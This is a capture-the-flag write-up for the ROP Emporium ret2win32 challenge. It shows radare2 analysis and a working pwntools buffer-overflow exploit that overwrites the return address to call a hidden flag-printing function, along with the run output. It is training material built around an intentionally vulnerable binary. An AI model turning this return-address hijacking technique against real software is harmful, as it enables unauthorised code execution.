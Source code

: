 # Ret2Win32 (Quick)

*Created: 5.22.2020*

*Last Updated: 5.22.2020*

Read the [problem description](https://ropemporium.com/challenge/ret2win.html) for what you need to do to start tackling the problem.

This is a memory overwrite problem where we need to send a buffer to overwrite the space allocated for a local variable and ebp, and then pass a return address to a function not normally called during execution. 

Run the following commands to start your analysis of the ret2win32 executable. 

```
r2 -Ad ./ret2win32

(in radare now)

s main

Vpp 
(to enter visual mode and see the file's disassembly
```

In *main* you should see that there is a call to the pwnme function. If you keep looking, you should find a ret2win function that prints the flag, but ret2win is not normally called during program execution.

In the pwnme function you should see a local variable local_28h. 

The 28h implies that 28h bytes of memory is allocated for user input. 28h in decimal is 40.

Then we need 4 bytes to overwrite ebp. 

Now we need to find the address of ret2win. 

```
|   sym.ret2win ();
|           0x08048659      55             push ebp   -> address of ret2win that we will make our new return address in our evil input       
```

Using pwntools we can write our exploit now. 

```
#!/usr/bin/env python2
from pwn import *

#start the ./ret2win32 process and save it in variable p
p = process('./ret2win32')

bufferToSend = "A"*44
retAddrOfWin = p32(0x08048659)

evil = bufferToSend + retAddrOfWin

print(p.recvuntil('fgets!'))

p.sendline(evil)

print(p.recvall())
```

Then we run the exploit. 

```
~/pwn/ret2win32$ python exploit.py 
[+] Starting local process './ret2win32': pid 11519
ret2win by ROP Emporium
32bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!
[+] Receiving all data: Done (65B)
[*] Process './ret2win32' stopped with exit code -11 (SIGSEGV) (pid 11519)


> Thank you! Here's your flag:ROPE{a_placeholder_32byte_flag!}
```

Yay. The flag!
